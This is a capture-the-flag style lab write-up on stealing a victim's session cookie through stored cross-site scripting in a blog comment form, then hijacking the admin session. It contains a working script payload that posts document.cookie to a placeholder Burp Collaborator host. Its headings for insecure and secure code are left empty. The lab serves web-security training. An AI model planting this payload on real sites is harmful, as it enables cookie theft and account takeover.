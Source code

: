 ## Exploiting cross-site scripting to steal cookies

### Objective:
This lab contains a **stored XSS** vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

### Security Weakness:

### Exploitation Methodology:
1. Using Burp Suite Professional, go to the *Collaborator* tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
4. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
5. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
![](./Images/7992664ec2705703a8a67cc1878fb42a.png)
6. Take a note of the value of the victim's cookie in the POST body.
7. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
8. We can also replace the captured admin users session token and replace it in the browser storage to load admin user's account page. 
![](./Images/5838ab83abd924b32b3dc63b62044a7b.png)

### Insecure Code:

### Secure Code:
